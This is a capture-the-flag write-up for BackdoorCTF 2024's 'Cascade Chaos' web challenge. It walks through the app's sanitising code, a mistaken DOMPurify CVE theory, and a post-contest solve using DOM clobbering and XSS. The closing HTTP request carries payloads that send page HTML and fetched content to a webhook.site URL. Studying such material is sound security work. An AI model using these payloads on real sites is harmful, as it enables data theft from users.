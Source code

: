 ```yaml
---
title: "Cascade Chaos"
description: "A Markdown app that looks harmless... or is it? Can you find the subtle cracks in the system and make things a bit more... interesting? A little creativity goes a long way."
pubDate: 2024-12-23
ctf: "BackdoorCTF 2024"
category: "web"
author: "sealldev"
section: "CTFs"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/backdoorctf2024#vulnkart)

Looking at the setup I presume its some dompurify exploit due to old version (`3.0.1` compared to latest `3.2.3` as of writing)
```html
...
  </style>
  <script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/3.0.1/purify.min.js"></script>
</head>
```

The markdown app seems to have dompurified input in the heading and then markdown payload:
```html
<body>
  <div class="heading">
  </div>

  <script>
    const heading = decodeURIComponent(`<%- heading -%>`);
    const headingDiv = document.querySelector(".heading");
    const content = DOMPurify.sanitize(heading);
    headingDiv.innerHTML = content;
  </script>
  <div class="content">
  </div>
  <button class="btn" id="showToAdminBtn">Show to Admin</button>

  <script>
    const body = decodeURIComponent(`<%- body -%>`);
    const contentDiv = document.querySelector(".content");
    if (window.isSafe) {
      contentDiv.innerHTML = body;
    } else {
      const sanitizedContent = DOMPurify.sanitize(body);
      contentDiv.innerHTML = sanitizedContent;
    }

    document.getElementById("showToAdminBtn").addEventListener("click", async () => {
      const contentDiv = document.querySelector(".content");
      const content = contentDiv.innerHTML.trim();
      const heading = document.querySelector(".heading").innerHTML.trim();

      const data = {
        content: content,
        heading: heading
      };
      let response = await fetch("/visit", {
        method: "POST",
        headers: {
          "Content-Type": "application/json"
        },
        body: JSON.stringify(data)
      });
      const result = await response.text();
      alert(result);
    });

  </script>
</body>
```

The Markdown payload is not sanitised if `window.isSafe` is set, so perhaps a prototype pollution in the heading, then normal XSS in Markdown?

The repo has an issue [Tampering by prototype pollution (high)](https://github.com/cure53/DOMPurify/security/advisories/GHSA-mmhx-hmjr-r674) A.K.A. `CVE-2024-45801` that is valid in <3.1.3 

Likely have to [commit diff for the 3.x patch](https://github.com/cure53/DOMPurify/commit/1e520262bf4c66b5efda49e2316d6d1246ca7b21)

## Post-CTF Solve

Turns out I'm completely wrong, thanks to my friend ([warlocksmurf](https://warlocksmurf.github.io/) my beloved) sharing their teams' path.

DOM clobbering (which I'd never heard of previously was the idea)

allows XSS on the remote service

```html
<a id="isSafe">
```
for the header

XSS in local service, colour parameter had injection point

```
POST /visit HTTP/1.1
Host: 35.224.222.30:4001
Content-Length: 323
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://35.224.222.30:4001
Referer: http://35.224.222.30:4001/convert?heading=%3Ca+id%3DisSafe%3E&content=%3Cimg%20src%3D%22x%22%20onerror%3D%22fetch(%27http%3A%2F%2Fhttpforever.com%27,%20%7B%20mode%3A%20%27no-cors%27%20%7D)%20.then(response%20%3D%3E%20response.text())%20.then(data%20%3D%3E%20location.href%20%3D%20%27https%3A%2F%2Fwebhook.site%2F0456830e-cbc2-4057-b98c-fe389f00f79c%2F%3Fc%3D%27%20%2B%20encodeURIComponent(data))%3B%22%3E
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{
  "content": "<p><img src=\"x\" onerror=\"location.href='http://local:4002/flag?color=black</style><script>window.onload=function(){location.href=%27https://webhook.site/0456830e-cbc2-4057-b98c-fe389f00f79c/?c=%27%2bbtoa(document.documentElement.outerHTML)}</script>'\" ></p>",
  "heading": "<a id=\"isSafe\"></a>"
}
```